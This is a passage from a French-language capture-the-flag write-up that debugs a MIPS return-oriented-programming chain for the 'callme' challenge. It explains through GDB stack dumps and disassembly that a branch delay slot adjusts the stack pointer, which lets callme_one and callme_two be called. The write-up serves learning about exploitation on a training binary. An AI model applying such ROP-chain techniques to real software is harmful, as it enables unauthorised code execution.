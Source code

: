On est pret a executer de nouveau le gadget, ra pointe dessus.
Capendant la pile est toujours la même :

    gef➤  i r $sp
    sp: 0x40800c30

ni

    →   0x400bb0 <usefulGadgets+0> lw     a0, 16(sp)
        0x400bb4 <usefulGadgets+4> lw     a1, 12(sp)
        0x400bb8 <usefulGadgets+8> lw     a2, 8(sp)
        0x400bbc <usefulGadgets+12> lw     t9, 4(sp)
        0x400bc0 <usefulGadgets+16> jalr   t9
        0x400bc4 <usefulGadgets+20> nop

Et la pile est ajustée

    gef➤  x/12x $sp
    0x40800c48:     0x00000000      0x00400d7c      0xd00df00d      0xcafebabe
    0x40800c58:     0xdeadbeef      0x00400bb0      0x00000000      0x00400d0c
    0x40800c68:     0xd00df00d      0xcafebabe      0xdeadbeef      0x40800c0a

d'ou vient ce "sp = sp + 0x18" ????

On es là :

=> 0x400bcc <usefulGadgets+28>: jr      ra
   0x400bd0 <usefulGadgets+32>: addi    sp,sp,24
   0x400bd4 <usefulGadgets+36>: nop

L'instruction `jr $ra` n'est pas sensée modifier `sp`.

Si on suite le saut avec l'instuction gdb "si" :

    →   0x400bb0 <usefulGadgets+0> lw     a0, 16(sp)
        0x400bb4 <usefulGadgets+4> lw     a1, 12(sp)
        0x400bb8 <usefulGadgets+8> lw     a2, 8(sp)
        0x400bbc <usefulGadgets+12> lw     t9, 4(sp)
        0x400bc0 <usefulGadgets+16> jalr   t9
        0x400bc4 <usefulGadgets+20> nop

    gef➤  i r $sp
    sp: 0x40800c48

L'instuction `addi sp,sp,24` est en fait executée avec le jump.
On peut remarquer que les instructions de saut sont systématiquement suivies d'un nop dans le code.
En particulier celui de notre gadget.


Mais avec cet ajustement la chaine peut continuer et callme_one puis callme_two sont appelés.



